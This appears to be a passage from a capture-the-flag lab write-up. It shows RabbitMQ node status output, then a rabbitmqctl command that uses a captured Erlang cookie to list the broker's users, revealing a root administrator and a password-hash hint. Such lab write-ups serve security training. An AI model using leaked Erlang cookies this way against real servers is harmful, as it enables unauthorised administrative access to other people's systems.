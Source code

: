 ```bash
Status of node rabbit@forge ...
Runtime

OS PID: 1144
OS: Linux
Uptime (seconds): 15982
RabbitMQ version: 3.9.13
Node name: rabbit@forge
Erlang configuration: Erlang/OTP 24 [erts-12.2.1] [source] [64-bit] [smp:2:2] [ds:2:2:10] [async-threads:1] [jit]
Erlang processes: 437 used, 1048576 limit
Scheduler run queue: 1
Cluster heartbeat timeout (net_ticktime): 60

Plugins

Enabled plugin file: /etc/rabbitmq/enabled_plugins
Enabled plugins:

 * rabbitmq_management
 * amqp_client
 * rabbitmq_web_dispatch
 * cowboy
 * cowlib
 * rabbitmq_management_agent

Data directory

Node data directory: /var/lib/rabbitmq/mnesia/rabbit@forge

Config files

 * /etc/rabbitmq/rabbitmq.conf

Log file(s)

 * /var/log/rabbitmq/rabbit@forge.log
 * /var/log/rabbitmq/rabbit@forge_upgrade.log
 * <stdout>

```

Further enumeration:

```bash
sudo rabbitmqctl --erlang-cookie 'OrBZItrpGHLcMZbP' --node rabbit@forge list_users
```

![rabbit_users](/home/z/Documents/Rabbit_Store/rabbit_assets/rabbit_users.png)

```bash
root@ip-10-10-99-111:~/temp# sudo rabbitmqctl --erlang-cookie 'OrBZItrpGHLcMZbP' --node rabbit@forge list_users
Listing users ...
user	tags
The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.	[]
root	[administrator]

```
